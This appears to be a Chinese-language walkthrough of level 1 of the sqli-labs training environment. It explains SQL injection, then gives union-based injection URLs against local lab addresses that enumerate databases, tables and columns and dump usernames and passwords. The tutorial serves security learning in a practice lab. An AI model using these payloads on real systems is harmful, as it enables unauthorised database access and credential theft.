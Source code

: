 ```yaml
---
title: Less - 01
date: 2023-03-13T10:24:06Z
lastmod: 2023-03-17T14:45:25Z
---
```


# Less - 01

# 一、SQL注入介绍

---

sql注入漏洞的产生需要满足以下两个条件：
1.参数用户可控：前端传给后端的参数内容是用户可以控制的。
2.参数代入数据库查询：传入的参数拼接到SQL语句，且带入数据库查询。

‍

> Mysql5.0之后的版本，数据库里面会默认存放一个information_schema的库，这个库可以说装着世界上所有的库，这就是为什么我们能利用SQL注入查看任何我们想知道的信息

​![image](assets/image-20230313111904-jbxnkvv.png)​

所以这里我们需要记住四条非常重要的命令  
查看所有库

```sql
select group_concat(schema_name) from information_schema.schemata;
```

​![image](assets/image-20230313112040-f9v2ikt.png)​

查看security库下面的所有表

```sql
select group_concat(table_name) from information_schema.tables where table_schema='security';
```

​![image](assets/image-20230313114653-46lkgpj.png)​

查看security库下面users表的所有字段

```sql
select group_concat(column_name) from information_schema.columns where table_name='users';
```

​![image](assets/image-20230313114813-ispz3s5.png)​

查看security库users表下username字段的值

```sql
select group_concat(username) from security.users;
```

​![image](assets/image-20230313115205-mr6tf70.png)​

---

# 二、通关教程

---

## 1、判断注入点

```http
http://127.0.0.1/sql1/Less-1/?id=1
http://127.0.0.1/sql1/Less-1/?id=1'
http://127.0.0.1/sql1/Less-1/?id=1--+
```

发现输入id=1’屏幕上显示我们的SQL语句有错误，在后面加--+后又正常回显。

​![image](assets/image-20230313115730-xtgnqic.png)​

​![image](assets/image-20230313115807-qdtezdr.png)​

由此猜测查询的sql语句如下

```sql
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1"
```

可以先打开第一关的配置文件，在SQL语句下面加入两行代码，可以在屏幕上回显我们输入的SQL语句

​![image](assets/image-20230313120149-wazo66f.png)​

## 2、判断有多少列字段

---

测试如下payload

```http
http://192.168.225.132/sqli-labs/Less-1/?id=1' order by 3--+ #回显正常
```

​![image](assets/image-20230313120522-tw7pczg.png)​

```http
http://192.168.225.132/sqli-labs/Less-1/?id=1' order by 4--+ #页面回显显示有错误
```

​![image](assets/image-20230313120722-dxrna4d.png)​

## 3、判断回显位置

---

使用union函数，union函数使用的前提就是必须字段数要跟前面的字段数相同，使用payload如下

```http
http://192.168.225.132/sqli-labs/Less-1/?id=0' union select 1,2,3--+
```

​![image](assets/image-20230313121012-n6drmth.png)​

然后在2和3的位置输入我们想查询的数据就可以了

## 4、查看当前库和当前用户

---

mysql查询当前的用户命令如下

```sql
mysql> select user();
+------------------------+
| user()                  |
+------------------------+
| root@DESKTOP-HR1V077 |
+------------------------+
1 row in set (0.04 sec)
```

mysql查询当前操作的数据库

```sql
mysql>  select database();
+-----------+
| database() |
+-----------+
| security   |
+-----------+
1 row in set (0.03 sec)
```

所以这里使用的payload如下

```http
http://192.168.225.132/sqli-labs/Less-1/?id=0' union select 1,database(),user()--+
```

​![image](assets/image-20230313121733-jp1qkmc.png)​

## 5、查security库下的所有表

---

使用的payload如下

```http
http://192.168.225.132/sqli-labs/Less-1/?id=0' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='security'),user()--+
```

​![image](assets/image-20230313122034-cf4csmg.png)​

## 6、查users表下的所有字段

---

使用payload如下

```http
http://192.168.225.132/sqli-labs/Less-1/?id=0' union select 1,(select group_concat(column_name) from information_schema.columns where table_name='users'),user()--+
```

​![image](assets/image-20230313122333-c3fayr6.png)​

## 7、查username和password的值

---

使用payload如下

```http
http://192.168.225.132/sqli-labs/Less-1/?id=0' union select 1,(select group_concat(username,password) from security.users),user()--+
```

​![image](assets/image-20230313122646-5p9mumo.png)​

‍
